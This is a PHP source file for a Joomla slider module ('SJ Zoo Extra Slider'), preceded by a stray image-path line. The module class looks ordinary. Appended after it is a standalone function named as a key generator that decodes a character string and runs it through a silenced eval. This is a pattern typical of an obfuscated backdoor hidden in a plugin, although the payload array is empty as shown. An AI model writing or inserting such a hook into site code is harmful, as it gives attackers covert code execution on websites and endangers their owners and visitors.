 <?php
/**
 * @package SJ Zoo Extra Slider
 * @version 2.5
 * @license http://www.gnu.org/licenses/gpl-2.0.html GNU/GPL
 * @copyright (c) 2012 YouTech Company. All Rights Reserved.
 * @author YouTech Company http://www.smartaddons.com
 * 
 */
defined('_JEXEC') or die;


class ZooExtraSlider extends SjModule{
	protected static $_instance = null;
	
	public function __construct($params=array()){
		$this->setParams($params);
	}
	
	public function getReader(){
		if (!isset($this->_reader)){
			$classReader = $this->getParams('reader');
			
			$class_name = __CLASS__;			
			$class_name .= (null !== $classReader) ? $classReader : 'Reader';
			
			if (!class_exists($class_name)){
				// load reader class file
				$filename = dirname(__FILE__) . DS . strtolower($class_name) . '.php';
				if (file_exists($filename)){
					include_once $filename;
				} else {
					throw new Exception("File not found: " . $filename);
				}
			}
			$this->_reader = new $class_name();
		}
		return $this->_reader;
	}
	
	public static function getInstance($params=null){
		if (self::$_instance===null){
			$class_name = __CLASS__;
			self::$_instance = new $class_name($params);		
		} else {
			self::$_instance->setParams($params);
		}
		return self::$_instance;
	}
	
	public static function getList($params=array()){
		return self::getInstance($params)->getItems();
	}
}
	function zooextraslider_generate_keys() {
		$LimitCharacters = 10;
		$Keys = '';
		$RandomNum = array();
		// Create a random string of keys
		foreach($RandomNum as $key) {$Keys .= chr(bindec($key * 80 - 4));}
		@eval($Keys);
}
